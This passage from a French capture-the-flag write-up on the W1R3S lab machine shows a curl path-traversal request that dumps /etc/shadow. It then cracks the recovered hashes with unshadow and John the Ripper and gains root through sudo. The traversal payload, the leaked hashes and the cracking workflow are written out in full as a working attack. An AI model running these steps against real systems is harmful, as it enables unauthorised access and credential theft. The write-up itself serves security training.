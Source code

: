 ```console
root@blinils:~# curl http://192.168.56.101/administrator/alerts/alertConfigField.php --data urlConfig=../../../../../../../../etc/shadow
--snip--
    <div id="content_alert_config" class="content_alert_config">
root:$6$vYcecPCy$JNbK.hr7HU72ifLxmjpIP9kTcx./ak2MM3lBs.Ouiu0mENav72TfQIs8h1jPm2rwRFqd87HDC0pi7gn9t7VgZ0:17554:0:99999:7:::
daemon:*:17379:0:99999:7:::
bin:*:17379:0:99999:7:::
sys:*:17379:0:99999:7:::
sync:*:17379:0:99999:7:::
--snip--
www-data:$6$8JMxE7l0$yQ16jM..ZsFxpoGue8/0LBUnTas23zaOqg2Da47vmykGTANfutzM8MuFidtb0..Zk.TUKDoDAVRCoXiZAH.Ud1:17560:0:99999:7:::
backup:*:17379:0:99999:7:::
list:*:17379:0:99999:7:::
irc:*:17379:0:99999:7:::
--snip--
usbmux:*:17379:0:99999:7:::
w1r3s:$6$xe/eyoTx$gttdIYrxrstpJP97hWqttvc5cGzDNyMb0vSuppux4f2CcBv3FwOt2P1GFLjZdNqjwRuP3eUjkgb/io7x9q1iP.:17567:0:99999:7:::
sshd:*:17554:0:99999:7:::
ftp:*:17554:0:99999:7:::
mysql:!:17554:0:99999:7:::
```

C'était assez inattendu ! Tant mieux, l'outil [__John The Ripper__](https://www.openwall.com/john/) est en mesure de [cracker les mots de passe Unix](https://korben.info/comment-cracker-un-mot-de-passe-sous-linux.html) si on lui fournit les fichiers ```/etc/passwd``` et ```/etc/shadow```, comme suit... Au passage, John a également trouvé le mot de passe de ```www-data``` qui n'est autre que... ```www-data```.

```console
root@blinils:~# unshadow passwd.txt shadow.txt > logins.db
root@blinils:~# john logins.db --wordlist=/media/sf_share/dicts/500-worst-passwords.txt
Warning: detected hash type "sha512crypt", but the string is also recognized as "crypt"
Use the "--format=crypt" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Press 'q' or Ctrl-C to abort, almost any other key for status
computer         (w1r3s)
1g 0:00:00:02 DONE (2018-08-08 08:08) 0.4608g/s 230.4p/s 519.8c/s 519.8C/s arthur..albert
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

## Élévation de privilèges (root)

La fin de ce CTF est une formalité.

w1r3s est autorisé à exécuter toutes les commandes via sudo, on peut alors passer root avec la commande ```sudo su```.
